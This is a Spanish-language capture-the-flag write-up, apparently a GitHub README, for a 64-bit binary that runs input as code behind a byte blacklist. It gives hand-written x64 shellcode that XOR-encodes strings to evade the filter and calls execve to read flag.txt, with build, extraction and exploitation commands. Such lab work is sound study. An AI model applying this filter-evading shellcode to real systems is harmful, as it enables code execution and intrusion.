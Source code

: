## Analisis del Binario
Tenemos un binario ejecutable de 64 bits con el NX desabilitado.

![foto de el binario](images/checksec.png)

Al ejecutar el binario nos recibe con el siguiente mensaje, donde dependiendo nuestra respuesta se acontece un segmentation fault.

```
Hey, just because I am hungry doesn't mean I'll execute everything
asd
Hehe, told you... won't accept everything
```

## Analisis del Codigo

Al analizar el codigo vemos que los bytes que introduzcamos son interpretados pudiendo ejecutar instrucciones, sin embargo tambien 
vemos presente una blacklist.

## Explotacion

# Creacion del shellcode
Existen diversas herramientas en la web que nos permiten crear shellcodes, un ejemplo claro tenemos msfvenom, sin embargo la serie de
limitantes que nos ocasiona la estructura del codigo hace dificil el uso de herramientas automatizadas, toca crearlo a mano.

# Instrucciones en ASM-x64

Como estamos en presencia de un binario de 64 bits, nuestro objetivo sera leer el archivo flag.txt, vamos a crearlo.

```asm
section .text
    global _start

_start:
; ---- Limpiamos el registro RDX, nos servira de separador para las cadenas de texto ----
    mov rdx, r9
    xor rdx,r9

; ---- Insertamos la cadena '/bin/cat' ----
    push rdx                        ; push NULL byte al stack
    mov rbx,0x8b9e9cd091969dd0      ; '/bin/cat' cifrado con xor para bypassear la blacklist
    xor rbx,0xffffffffffffffff      ; desciframos '/bin/cat'
    push rbx
    mov rdi,rsp                     ; RDI -> '/bin/cat'

; ---- Insertamos la cadena 'flag.txt' ---
    push rdx                        ; push NULL byte al stack
    mov rbx,0x8b878bd1989e9399      ; 'flag.txt' cifrado
    xor rbx,0xffffffffffffffff      ; deciframos 'flag.txt'
    push rbx
    mov rsi,rsp                     ; RSI -> 'flag.txt'

; ---- Almacenamos las direcciones y preparamos la pila ---
    push rdx                        ; Null Byte
    push rsi
    push rdi
    mov rsi,rsp                     ; RSI -> ['/bin/cat','flag.txt']

; syscall: execve(const char *pathname, char *const _Nullable argv[],char *const _Nullable envp[]);
    ; rdi: pathname = '/bin/cat'
    ; rsi: args[] = ['/bin/cat flag.txt']
    ; rdx: envp = NULL

; --- Ejecutamos la llamada al sistema ---
    mov al, 60              ; RAX -> execv cuyo valor es [59]
    dec al
    syscall
```

*Nota: Puedes descargar el archivo sin comentarios [aqui](/exploit/shellcode.asm)*

Una vez listo, debemos ver si no contiene Null bytes y ninguno de los badchars (si seguiste la guia puedes seguir con normalidad).
Compilamos el binario con los siguientes comandos:

```bash
nasm -f elf64 <filename> -o shellcode.o
ld shellcode.o -o shell
```
Lo ejecutamos para comprobar que todo este bien...

# Generacion del shellcode
Gracias a la siguiente funcion que tengo programada en mi zshrc se puede exctraer el shell code con facilidad.

```bash
extractShell () {
	printf '\\x' && objdump -d $1 | grep "^ " | cut -f2 | xargs | tr -d " " | sed 's/.\{2\}/&\\x/g' | head -c-3
	echo
}
```
Lo copiamos y vamos a la explotacion.

*Puedes agregarlo a tu zsh en la ultima linea*

# Explotacion
Una vez tengamos el shellcode debemos explotar el binario.

```bash
echo -n <shellcode> | ./execute
```

![flag](images/flag.png)

Y listo...
*Nota: [Aqui](/exploit/exploit.py) adjunto una herramienta para la explotacion automatizada*





